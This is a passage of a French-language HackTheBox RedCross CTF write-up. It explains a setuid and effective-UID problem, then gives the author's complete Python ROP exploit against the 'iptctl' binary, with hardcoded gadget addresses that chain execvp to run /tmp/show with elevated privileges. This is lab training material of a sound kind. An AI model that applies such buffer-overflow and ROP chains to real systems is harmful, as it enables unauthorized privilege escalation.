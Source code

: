 Et une problématique :  

* Pour appeler *setuid(0)* il faut que rdi soit mis à 0 écrasant donc sa valeur
* Lorsque l'on appelle *setuid*, la valeur de retour sera mise dans rax écrasant alors sa valeur

Il faudrait alors un gadget pour *"sauvegarder"* la valeur de rax/eax ou rdi/edi... évidemment il n'y a rien :p  

Bon on n'est pas obligé d'appeler *setuid* : avec [un effective UID](https://intelligea.wordpress.com/2014/02/11/effective-user-id-and-group-id-vs-real-user-id-and-group-id/) (euid) à 0 ce sera suffisant pour afficher le contenu du flag.  

Voici mon exploit final :  

```python
#!/usr/bin/env python3
# - devloop exploit for iptctl -
# HackTheBox RedCross CTF
# 
#                       :::!~!!!!!:.
#                   .xUHWH!! !!?M88WHX:.
#                 .X*#M@$!!  !X!M$$$$$$WWx:.
#                :!!!!!!?H! :!$!$$$$$$$$$$8X:
#               !!~  ~:~!! :~!$!#$$$$$$$$$$8X:
#              :!~::!H!<   ~.U$X!?R$$$$$$$$MM!
#              ~!~!!!!~~ .:XW$$$U!!?$$$$$$RMM!
#                !:~~~ .:!M"T#$$$$WX??#MRRMMM!
#                ~?WuxiW*`   `"#$$$$8!!!!??!!!
#              :X- M$$$$       `"T#$T~!8$WUXU~
#             :%`  ~#$$$m:        ~!~ ?$$$$$$
#           :!`.-   ~T$$$$8xx.  .xWW- ~""##*"
# .....   -~~:<` !    ~?T#$$@@W@*?$$      /`
# W$@@M!!! .!~~ !!     .:XUW$W!~ `"~:    :
# #"~~`.:x%`!!  !H:   !WM$$$$Ti.: .!WUn+!`
# :::~:!!`:X~ .: ?H.!u "$$$B$$$!W:U!T$$M~
# .~~   :X@!.-~   ?@WTWo("*$$$W$TH$! `
# Wi.~!X$?!-~    : ?$$$B$Wu("**$RM!
# $R@i.~~ !     :   ~$$$$$B$$en:``
# ?MXT@Wx.~    :     ~"##*$$$$M~
#

import struct
import os
from subprocess import Popen, PIPE
from time import sleep
import sys

def qw(value):
    return struct.pack("<Q", value)

ppret = 0x400de1  # pop rsi ; pop r15 ; ret
execv = 0x400d13  # call execvp
exit0 = 0x400d18  # mov edi, 0 ; call exit

buff = b"/tmp/show\0"
buff += b"\0" * (34 - len(buff))
buff += qw(ppret)  # Met RSI à NULL (second paramètre de execvp)
buff += qw(0)
buff += qw(0)
buff += qw(execv)  # appelle execvp et exécute /tmp/show (RDI pointe déjà dessus)
buff += qw(exit0)  # On peut quitter proprepent après exécution :)
buff += b"\n"

with open(sys.argv[1], "wb", buffering=0) as fd:
    fd.write(buff)
    fd.write(b"1.1.1.1\n\n\n")
```